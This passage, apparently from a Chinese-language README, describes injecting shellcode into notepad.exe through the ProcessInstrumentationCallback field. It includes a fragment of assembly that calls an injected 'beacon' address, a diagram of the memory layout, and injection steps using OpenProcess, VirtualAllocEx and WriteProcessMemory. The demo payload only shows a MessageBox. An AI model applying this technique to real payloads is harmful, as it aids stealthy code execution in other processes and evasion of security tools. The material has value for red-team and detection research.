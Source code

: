```assembly
mov rax, <beacon_address>        ; offset 26: 注入 beacon 地址
call rax

; 恢复寄存器上下文
pop r11
pop r10
pop r9
pop rcx
pop rbx
pop rax
pop rbp

; 返回到系统调用原始流程
jmp r10                          ; r10 保存了原始返回地址
```

### 2. 内存布局

```
目标进程地址空间:

┌─────────────────────────────────┐
│  Beacon 内存区域                 │
│  - 权限: PAGE_EXECUTE_READ (RX) │
│  - 内容: MessageBox shellcode   │
│  - 大小: 动态                    │
└─────────────────────────────────┘
         ↑
         │ 被 shellcode 调用
         │
┌─────────────────────────────────┐
│  Shellcode 模板 (49 字节)        │
│  - 权限: PAGE_EXECUTE_READWRITE │
│  - offset 26: beacon 地址        │
│  - 自修改: 首字节会被修改        │
└─────────────────────────────────┘
         ↑
         │ ProcessInstrumentationCallback 指向此处
         │
┌─────────────────────────────────┐
│  PEB (Process Environment Block)│
│  - InstrumentationCallback 字段 │
│    设置为 shellcode 地址         │
└─────────────────────────────────┘
```

### 3. 注入流程

```
1. 获取目标进程句柄
   └─> OpenProcess(PROCESS_ALL_ACCESS, notepad.exe)

2. 准备 Beacon Payload
   ├─> 创建 MessageBox shellcode
   ├─> 解析 user32!MessageBoxA 地址
   └─> Patch 地址到 shellcode 中

3. 分配目标进程内存
   ├─> VirtualAllocEx(beacon_size, PAGE_READWRITE)
   └─> VirtualAllocEx(49, PAGE_READWRITE)

4. 写入 Payload
   ├─> WriteProcessMemory(beacon_content)
   └─> WriteProcessMemory(shellcode_template)
```